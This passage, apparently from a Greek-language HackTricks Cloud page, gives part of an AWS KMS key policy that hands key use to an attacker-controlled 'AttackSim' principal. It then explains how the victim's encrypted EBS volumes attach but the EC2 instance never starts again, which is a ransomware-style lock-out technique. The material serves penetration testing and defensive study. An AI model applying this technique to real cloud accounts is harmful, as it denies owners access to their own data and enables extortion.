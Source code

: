 ```json
"kms:CancelKeyDeletion"
],
"Resource": "*"
},
{
"Sid": "Allow use of the key",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": [
"kms:Encrypt",
"kms:Decrypt",
"kms:ReEncrypt*",
"kms:GenerateDataKey*",
"kms:DescribeKey"
],
"Resource": "*"
},
{
"Sid": "Allow attachment of persistent resources",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": [
"kms:CreateGrant",
"kms:ListGrants",
"kms:RevokeGrant"
],
"Resource": "*",
"Condition": {
"Bool": {
"kms:GrantIsForAWSResource": "true"
}
}
}
]
}
```
Περίμενε λίγο για να διαδοθεί η νέα πολιτική κλειδιού. Στη συνέχεια, επέστρεψε στον λογαριασμό του 'θύματος' και προσπάθησε να επισυνάψεις έναν από τους νέους κρυπτογραφημένους όγκους EBS. Θα διαπιστώσεις ότι μπορείς να επισυνάψεις τον όγκο.

![Pasted image 20231231174131](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/ba9e5340-7020-4af9-95cc-0e02267ced47) ![Pasted image 20231231174258](https://github.com/DialMforMukduk/hacktricks-cloud/assets/35155877/6c3215ec-4161-44e2-b1c1-e32f43ad0fa4)

Αλλά όταν προσπαθήσεις να ξεκινήσεις ξανά την EC2 instance με τον κρυπτογραφημένο όγκο EBS, θα αποτύχει και θα επιστρέψει από την κατάσταση 'pending' στην κατάσταση 'stopped' για πάντα, καθώς ο επισυναπτόμενος όγκος EBS δεν μπορεί να αποκρυπτογραφηθεί χρησιμοποιώντας το κλειδί, καθώς η πολιτική κλειδιού δεν το επιτρέπει πλέον.
